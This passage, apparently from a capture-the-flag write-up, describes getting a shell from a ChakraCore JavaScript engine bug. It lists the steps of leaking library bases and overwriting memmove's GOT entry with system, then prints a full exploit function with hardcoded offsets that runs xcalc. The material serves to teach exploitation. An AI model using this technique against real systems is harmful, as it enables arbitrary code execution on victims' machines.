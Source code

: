Later it can just use the fake object handle to read/write the memory content.

### getting shell

Here I modified the exploit code and use the same exploit method as the feuerfuchs challenge to get the shell:

1. Leak the base address of `libChakraCore.so`
2. Get the base address of `libc.so` by leaking `write@got.plt`
3. Overwrite `memmove@got.plt` to `system`
4. Execute `system([cmd])` by calling `Uint8Array.set()`

```javascript
function pwn() {

    // exploit the bug and create our arbitrary r/w primitive
    var mem = gimme_rw();

    // get the base of libChakraCore.so                                                                                                                                                                     
    var base = get_base(mem);
    console.log("[+] base @ " + base.toString(16));

    // the following offets are hardcoded
    var memmove_got = base + 0xd9b0f0;
    console.log("[+] memmove_got @ " + memmove_got.toString(16));
    var write_got = base + 0xd9b780;
    console.log("[+] write_got @ " + write_got.toString(16));
    var write_addr = mem.read64(write_got);
    console.log("[+] write_addr @ " + write_addr.toString(16));
    var system = write_addr - 0xe3a100;
    console.log("[+] system @ " + system.toString(16));

    // now set up our command 
    var cmd = "/usr/bin/xcalc\0";

    // write the command into a Uint8Array
    var target = new Uint8Array(0x1234);
    for (var i = 0; i < cmd.length; i++) {
        target[i] = cmd.charCodeAt(i);
    }   

    // overwrite memmove with system
    mem.write32(memmove_got, lower(system));
    mem.write32(memmove_got+4, upper(system));

    // GIMME SHELL NOW
    var bb = new Uint8Array(10);
    target.set(bb);
}
```
